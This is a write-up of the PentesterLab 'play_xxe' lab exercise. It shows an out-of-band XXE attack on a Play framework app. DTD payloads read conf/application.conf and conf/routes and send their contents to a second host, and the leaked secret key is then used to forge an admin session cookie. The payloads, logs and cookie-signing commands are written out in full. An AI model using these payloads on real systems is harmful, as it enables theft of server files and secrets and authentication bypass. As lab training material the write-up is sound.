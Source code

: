 #### 2.1. About exercise

URL: `https://pentesterlab.com/exercises/play_xxe`

The goal of the lab exercise is to retrieve the cookie signature key from the app's config, and then generate a valid cookie to authenticate as `admin`.

Also, the challenge requires disclosure of all routes to reach the (secret) URL, which may be a protected/internal resources.


#### 2.2. App routes in Play framework

Documentation:
- `https://www.playframework.com/documentation/1.2/routes`
- Files: 
  - `conf/routes`
  - `conf/application.conf`


#### 2.3. Reading the sensitive data

HTTP request:
```
POST http://172.16.201.246/login HTTP/1.1
Host: 172.16.201.246
Content-Length: 113
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/dtd">
<x>&trigger;</x>
```

a) DTD file for reading the `application.conf` file:
```
<!ENTITY % f SYSTEM "file:///opt/play-2.1.3/xxe/conf/application.conf">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://172.16.201.160:8888/?%f;'>">
%all;
```

b) DTD file for reading the `routes` file:
```
<!ENTITY % f SYSTEM "file:///opt/play-2.1.3/xxe/conf/routes">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://172.16.201.160:8888/?%f;'>">
%all;
```


#### 2.4 HTTP logs

a) Contents of `/opt/play-2.1.3/xxe/conf/application.conf` (URL decoded and formatted):
```
172.16.201.246 - - [05/Dec/2018 06:20:15] "GET /dtd HTTP/1.1" 200 -
172.16.201.246 - - [05/Dec/2018 06:20:15] "GET /?
application.secret="X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG"
application.langs="en"
db.default.driver=com.mysql.jdbc.Driver
db.default.url="mysql://pentesterlab:pentesterlab@localhost/xxe"
ebean.default="models.*"
logger.root=ERROR
logger.play=INFO
logger.application=DEBUG
HTTP/1.1" 200 -
```

b) Contents of `/opt/play-2.1.3/xxe/conf/routes` (URL decoded and formatted):
```
172.16.201.246 - - [05/Dec/2018 06:24:33] "GET /dtd HTTP/1.1" 200 -
172.16.201.246 - - [05/Dec/2018 06:24:33] "GET /?
GET     /                           controllers.Application.index()
GET     /0ecf87346b9c0b370f8d63e6e7fed4f0             controllers.Application.secret_url()
GET       /login                   controllers.Application.login
POST      /login                   controllers.Application.login
GET       /logout                  controllers.Application.logout
GET     /assets/*file               controllers.Assets.at(path="/public", file) 
HTTP/1.1" 200 -
```

To reach the secret page:
```
# http http://172.16.201.246/0ecf87346b9c0b370f8d63e6e7fed4f0 -b
```


#### 2.5. Authentication bypass

Generic cookie format:
```
Cookie: PLAY_SESSION="[signature_goes_here]-user=admin"
```

To sign a valid cookie using `application.secret`:
```
# echo -n 'user=admin' | openssl dgst -sha1 -hmac 'X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG'
(stdin)= a5b8363ce748cfbb5d654edc3676d440173b33de
```

Final cookie:
```
Cookie: PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin"
```

Gaining access as `admin` user:
```
# http http://172.16.201.246/ Cookie:PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin" -v
```
